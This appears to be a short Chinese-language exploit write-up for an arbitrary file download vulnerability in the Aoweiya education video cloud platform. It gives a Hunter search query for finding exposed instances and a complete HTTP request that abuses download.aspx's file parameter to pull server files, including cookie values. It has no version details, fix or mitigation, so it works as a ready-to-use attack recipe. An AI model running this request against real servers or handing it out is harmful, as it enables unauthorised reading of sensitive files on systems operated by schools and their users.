

# 一、漏洞简介
奥威亚教育视频云平台是<font style="color:rgb(62, 62, 62);">一种教育技术解决方案，致力于提供高质量的在线教育视频服务。该平台为教育机构和教师提供了一个全面的视频管理和交流平台。奥威亚教育视频云平台download存在任意文件下载漏洞，攻击者可通过该漏洞获取服务器敏感信息。</font>

# <font style="color:rgb(62, 62, 62);">二、影响版本</font>
+ 奥威亚教育视频云平台

# 三、资产测绘
+ hunter`web.body="/CSS/NewtonTheme/assets/app.css"`
+ 特征


# 四、漏洞复现
```java
GET /download.aspx?file=/Tools/AS/ASRoute.aspx HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=jzqnlz1foaenpxx5bjhvxp2m; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Upgrade-Insecure-Requests: 1
```



